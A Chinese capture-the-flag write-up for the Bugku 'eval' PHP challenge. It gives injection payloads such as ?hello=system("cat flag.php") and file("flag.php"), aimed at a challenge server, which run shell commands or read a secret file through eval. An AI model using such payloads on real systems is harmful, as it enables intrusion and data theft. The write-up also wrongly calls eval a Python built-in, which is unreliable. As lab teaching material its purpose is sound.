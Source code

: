 ### bugku_eval

可以看到是一段简单的PHP代码，其中包含了flag.php文件，那么很明显这道题多半就是想办法输出flag.php

```
1. $_REQUEST
php中$_REQUEST可以获取以POST方法和GET方法提交的数据，缺点：速度比较慢 。
2. var_dump()
该方法是判断一个变量的类型与长度,并输出变量的数值,如果变量有值输的是变量的值并回返数据类型.此函数显示关于一个或多个表达式的结构信息，包括表达式的类型与值。数组将递归展开值，通过缩进显示其结构。
它的格式：var_dump ( mixed expression [, mixed expression [, ...]] )
来看看var_dump 语法: var_dump (var,var,bar);
要注意一点,用var_dump里面的变量必须是存在的,如果变量存在但值是空的就会返回false;没有变量则返回NULL.他自己就有输出的功能。不必加其他的输出函数。
3. eval
是Python的一个内置函数，这个函数的作用是，返回传入字符串的表达式的结果。即变量赋值时，等号右边的表示是写成字符串的格式，返回值就是这个表达式的结果。这个函数也可以将括号内的字符串当命令执行
4.show_source
对文件进行语法高亮显示。
```

因此，为了输出文件，可以直接构造playload

```
http://114.67.246.176:13303/?hello=system("cat flag.php")
```

此时可以在源代码中看见flag

经过评论区大佬提醒，也可以使用**hello=system("tac flag.php")**输出，此时直接显示在前端![](https://pic.imgdb.cn/item/60efefe95132923bf8ecce9a.jpg)

>用tac而不是cat：因为那个php文件带有<?php和后面的?>，正序输出会被网页当做php代码运行（结果为空），但是<?php 和?>不在同一行，所以tac反序输出使其不闭合，才可以显示其字符串的形式

还有另外一种构造方式

```
http://114.67.246.176:13303/?hello=file("flag.php")

###################
file() 函数把整个文件读入一个数组中。
与 file_get_contents() 类似，不同的是 file() 将文件作为一个数组返回。数组中的每个单元都是文件中相应的一行，包括换行符在内。
如果失败，则返回 false。
```

![](https://pic.imgdb.cn/item/60eff0975132923bf8f114cd.jpg)